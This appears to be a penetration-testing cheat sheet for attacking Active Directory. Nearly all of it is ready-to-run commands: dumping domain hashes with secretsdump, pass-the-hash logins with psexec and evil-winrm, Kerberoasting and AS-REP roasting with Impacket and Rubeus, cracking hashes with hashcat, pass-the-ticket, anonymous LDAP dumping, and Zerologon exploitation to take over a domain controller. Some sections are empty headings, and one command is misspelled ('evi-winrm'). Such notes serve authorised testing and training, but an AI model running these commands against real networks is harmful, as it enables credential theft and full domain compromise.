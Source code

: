 # Active Directory Exploitation  
## Contents
- [Active Directory Exploitation](#active-directory-exploitation)
  * [Contents](#contents)
  * [NTLM Authentication](#ntlm-authentication)
    + [Impacket Scripts](#impacket-scripts)
  * [Kerberos (Port 88)](#kerberos--port-88-)
  * [Kerberos Attacks](#kerberos-attacks)
    + [Kerbrute Enumeration](#kerbrute-enumeration)
    + [Kerberoasting](#kerberoasting)
    + [AS-REP Roasting with Rubeus and Impacket](#as-rep-roasting-with-rubeus-and-impacket)
    + [Golden / Silver Ticket Attacks:](#golden---silver-ticket-attacks-)
    + [Overpass The Hash/Pass The Key (PTK):](#overpass-the-hash-pass-the-key--ptk--)
    + [Pass the Ticket](#pass-the-ticket)
    + [Skeleton Key Attacks using Mimikatz](#skeleton-key-attacks-using-mimikatz)
  * [LDAP (Port 636)](#ldap--port-636-)
  * [Other Exploits](#other-exploits)
  
## NTLM Authentication
### Impacket Scripts  
psexec.py, smbexec.py, wmiexec.py   
If you have creds for the backup account for domain controller: can dump all hashes    

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup:backuppassword@domain.local
    
Use secretsdump.py to dump hashes and hash history from Active Directory database (NTDS.dit) and the SYSTEM registry hive. Password history can be helpful for password reuse attacks.            

    python3 secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL -outputfile dc-hashes -history     
    sed -i '/$:/d' dc-hashes.ntds     #remove machine accounts (end with $:)     
    hashcat -m 1000 -a 0 dc-hashes.ntds ~/path_to_wordlist   #crack NT hashes with a wordlist attack      
    
Pass the Hash: use psexec or evil-winrm to login with username/ hash (doesn't need to be cracked)    

    python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 "./Administrator"@192.168.204.183    
    evi-winrm -i 127.0.0.1 -u username -H [NTLM hash]   

## Kerberos (Port 88)   
Tools: [Kerbrute](https://github.com/ropnop/kerbrute), [Rubeus](https://github.com/GhostPack/Rubeus)   
[Messing With Kerberos Using Rubeus](https://endark.gitbook.io/kb/windows/lab-attacks/messing-with-kerberos-using-rubeus) 
[Kerberos Tickets](https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel)   
[Kerberos Cheat Sheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)  
[How Kerberos Works](https://www.tarlogic.com/blog/how-kerberos-works/)  


    ./kerbrute userenum userlist.txt -d [name] --dc [name]     
    
## Kerberos Attacks 

Kerbrute Enumeration (No domain access needed) 

Kerberoasting (Access as any user needed) 

AS-REP Roasting with Rubeus and Impacket (Access as any user needed)  

Overpass the Hash / Pass the Key (PTK)  

Pass the Ticket (Access to user on the domain needed)  

Golden/Silver Ticket Attacks (krbtgt or domain admin hash needed / Service hash needed) 

Skeleton key attacks using mimikatz (Domain Admin hneeded) 

### Kerbrute Enumeration 
No domain access needed 

Kerbrute: https://github.com/ropnop/kerbrute
/usr/share/wordlists/ADUsers.txt

### Kerberoasting  
Check for Kerberoasting with Impacket -> SPNs 

    GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

Kerberoasting with Impacket

    python3 GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>  
    sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip <ip> -request
     
 Kerberoasting with Rubeus (install on Windows host in domain) 
 
    rubeus.exe kerberoast 
 
Crack passwords with hashcat 

    hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/ADPass.txt
    13100: kerberos 5, 0: straight attack mode

### AS-REP Roasting with Rubeus and Impacket
Get a list of valid users: ASREProasting to see if any of them do not have pre-auth set and can request a Kerberos ticket without a password. Crack hashes with hashcat        

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.local/ -no-pass -usersfile users.txt         
     

ASREPRoast with Impacket:

    impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
    impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

ASREP Roast with Rubeus:

### Golden / Silver Ticket Attacks: 
Golden ticket: use krbtgt password hash to form a Ticket Granting Ticket (allows authentication to any Kerberos service). Abuses root of trust in Kerberos network.    

### Overpass The Hash/Pass The Key (PTK):
Impacket 

    python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
    python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
    python3 getTGT.py <domain_name>/<user_name>:[password]

### Pass the Ticket 
Using TGT key to execute remote commands from the following impacket scripts:

    python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

### Skeleton Key Attacks using Mimikatz 

## LDAP (Port 636)
Anonymous Credential LDAP Dumping: 

    ldapsearch -LLL -x -H ldap://<domain fqdn> -b '' -s base '(objectclass=*)'

Impacket GetADUsers.py (Must have valid credentials)

    GetADUsers.py -all <domain\User> -dc-ip <DC_IP>

Impacket lookupsid.py:

    /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

    python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

    python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
    
## Other Exploits
[Print Nightmare Walkthrough](https://themayor.notion.site/341cf3705cc64752b466046584de45b8?v=4f2173ad749249b293a89ab5391805ec&p=ef69c17e82c5471fb4648ccabbf5c937) 
impersonate DA from standard domain user   
https://github.com/WazeHell/sam-the-admin   

Zerologon    
Testing script, use cme to extract the DC name.    
https://github.com/SecuraBV/CVE-2020-1472    

    python3 zerologon_tester.py EXAMPLE-DC 1.2.3.4    
Use zer0dump to dump hash of admin password:  
 
    zer0dump.py 192.168.0.5 -port 445    
RCE through pass the hash: 

    psexec.py -hashes [hash] Administrator@192.168.0.5   
